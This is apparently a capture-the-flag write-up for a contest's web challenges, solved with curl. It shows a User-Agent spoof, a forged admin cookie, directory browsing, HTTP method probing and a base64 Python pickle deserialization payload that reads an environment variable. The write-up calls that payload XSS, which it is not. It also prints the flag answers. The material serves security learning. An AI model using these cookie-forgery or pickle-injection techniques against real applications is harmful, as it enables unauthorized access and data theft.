








# WEB

## Proxy man




this can be actually be very easy to do without booting burp suite or anything fancy.

if we get the page with `curl` we can see the following at the end:



do you see something interesting? the `generate_flag.php` i would say. let's get that also:



cool, right?

## Basics 2



in the same manner as the above challenge we can solve it very easy with the help of `-H` option in curl, changing the `User-Agent` as hinted in the description.

we can search the `User-Agent` specific for the device mentioned and we get the following to bring into `curl`: `User-Agent: Mozilla/5.0 (Linux; U; Android 4.2.2; he-il; NEO-X5-116A Build/JDQ39) AppleWebKit/534.30 (KHTML, like Gecko) Version/4.0 Safari/534.30`.

flag: `CSCTF{UserAgent_whitelist}`

## Basics 3



inspecting the source code of the website we can see that the image comes from a certain folder on the server `./files/images`. what is inside `./files`?



this is a simple case of LFI. enjoy your flag!


## Basics 4



by looking at the cookies we can see there is a certain `user=guest`. changing this to admin gives us the flag. alternatively you can `curl -b "user=admin"` the address.

## Cerealized



this is where it gets fun. by inspecting the website we can see there is a `POST` happening  which prints out the text we give. we can try an XSS by generating a payload for `contents` cookie used by the pickle module. the payload generated is `gASVHAAAAAAAAACMAm9zlIwGZ2V0ZW52lJOUjARGTEFHlIWUUpQu`, which is the encoded serialization of the object returning the value of `(os.getenv(), ("FLAG",))`.

doing this shows us a messed up version of our flag. the only thing needed is to get the text from the source code. i did this with a simple regex on the `html` code.

## Options


gonna be honest, this took a while because of the cryptic nature and moonlight logic of this challenge.

a first curl gives us this:
```
curl "http://chal.chronossec.site:30160/" -v                     ✔ 
* Host chal.chronossec.site:30160 was resolved.
* IPv6: (none)
* IPv4: 34.118.63.117
*   Trying 34.118.63.117:30160...
* Connected to chal.chronossec.site (34.118.63.117) port 30160
> GET / HTTP/1.1
> Host: chal.chronossec.site:30160
> User-Agent: curl/8.6.0
> Accept: */*
> 
< HTTP/1.1 302 FOUND
< Server: Werkzeug/2.3.8 Python/3.9.17
< Date: Tue, 02 Apr 2024 15:31:10 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 195
< Location: /one
< Connection: close
< 
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/one">/one</a>. If not, click the link.
* Closing connection
```

going to `/one` gives us this:

```
curl "http://chal.chronossec.site:30160/one" -v                  ✔ 
* Host chal.chronossec.site:30160 was resolved.
* IPv6: (none)
* IPv4: 34.118.63.117
*   Trying 34.118.63.117:30160...
* Connected to chal.chronossec.site (34.118.63.117) port 30160
> GET /one HTTP/1.1
> Host: chal.chronossec.site:30160
> User-Agent: curl/8.6.0
> Accept: */*
> 
< HTTP/1.1 302 FOUND
< Server: Werkzeug/2.3.8 Python/3.9.17
< Date: Tue, 02 Apr 2024 15:31:15 GMT
< Content-Disposition: inline; filename=index.html
< Content-Type: text/html; charset=utf-8
< Content-Length: 63
< Last-Modified: Tue, 06 Feb 2024 07:11:16 GMT
< Cache-Control: no-cache
< ETag: "1707203476.0-63-1266812783"
< Date: Tue, 02 Apr 2024 15:31:15 GMT
< Location: /anotherone
< Connection: close
< 
hello

* Closing connection
<!-- You will get a single *hint* from my application-->
```

the *hint* is basically just going to that page `/hint`:

```
curl "http://chal.chronossec.site:30160/hint" -v                 ✔ 
* Host chal.chronossec.site:30160 was resolved.
* IPv6: (none)
* IPv4: 34.118.63.117
*   Trying 34.118.63.117:30160...
* Connected to chal.chronossec.site (34.118.63.117) port 30160
> GET /hint HTTP/1.1
> Host: chal.chronossec.site:30160
> User-Agent: curl/8.6.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Server: Werkzeug/2.3.8 Python/3.9.17
< Date: Tue, 02 Apr 2024 15:33:41 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 67
< Connection: close
< 
* Closing connection
Don't tell anyone, but I think I saw someone posted up at /userapp.
```

requesting with the `POST` method gives us this:

```
curl -X POST "http://chal.chronossec.site:30160/userapp" -v      ✔ 
* Host chal.chronossec.site:30160 was resolved.
* IPv6: (none)
* IPv4: 34.118.63.117
*   Trying 34.118.63.117:30160...
* Connected to chal.chronossec.site (34.118.63.117) port 30160
> POST /userapp HTTP/1.1
> Host: chal.chronossec.site:30160
> User-Agent: curl/8.6.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Server: Werkzeug/2.3.8 Python/3.9.17
< Date: Tue, 02 Apr 2024 15:34:42 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 93
< Connection: close
< 
* Closing connection
Hidden Linux files have a period prepended. Do you think I hid the hidden file? hidden hidden
```

this took a bit, trying with the `POST` method,  but finally it just hints at the `/.hidden` file:

```
curl -X PUT "http://chal.chronossec.site:30160/.hidden" -v       ✔ 
* Host chal.chronossec.site:30160 was resolved.
* IPv6: (none)
* IPv4: 34.118.63.117
*   Trying 34.118.63.117:30160...
* Connected to chal.chronossec.site (34.118.63.117) port 30160
> PUT /.hidden HTTP/1.1
> Host: chal.chronossec.site:30160
> User-Agent: curl/8.6.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Server: Werkzeug/2.3.8 Python/3.9.17
< Date: Tue, 02 Apr 2024 15:35:56 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 78
< Connection: close
< 
* Closing connection
You saw so many options! You deserve a flag: CSCTF{OPTIONS_Wil1_seT_Y0u_fr33}!
```

that's it for web, let's see [LINUX](./LINUX)